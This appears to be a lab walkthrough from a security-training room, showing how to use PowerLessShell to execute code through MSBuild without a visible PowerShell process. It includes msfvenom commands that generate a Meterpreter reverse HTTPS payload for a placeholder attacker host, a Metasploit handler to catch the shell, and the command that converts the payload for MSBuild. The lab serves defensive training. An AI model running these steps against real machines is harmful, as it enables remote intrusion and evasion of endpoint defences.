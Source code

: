 PowerLessShell is a Python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on abusing the Microsoft Build Engine (MSBuild), a platform for building Windows applications, to execute remote code.

First, let's download a copy of the project from the GitHub repo onto the AttackBox:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/239e633cdb273be86d1077949539cb38.png)

```
Terminal

           
			
user@machine$ git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git

	    
```

One of the project requirements is to get a PowerShell payload to make it suitable to work with MSBuild. On the AttackBox, we need to generate a PowerShell payload using msfvenom as follows: 

```
Terminal

           
			
user@machine$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1
	    
```

Also, we need to run the Metasploit framework to listen and wait for the reverse shell.

```
Terminal

           
			
user@machine$ msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => AttackBox_IP lport => 4443
[*] Started HTTPS reverse handler on https://AttackBox_IP:4443
	    
```

Now that we have the payload ready, change to the PowerLessShell directory project to convert the payload to be compatible with the MSBuild tool. Then run the PowerLessShell tool and set the source file to the one we created with msfvenom as follows:

```
Terminal

           
			
user@machine$ python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
	    
```
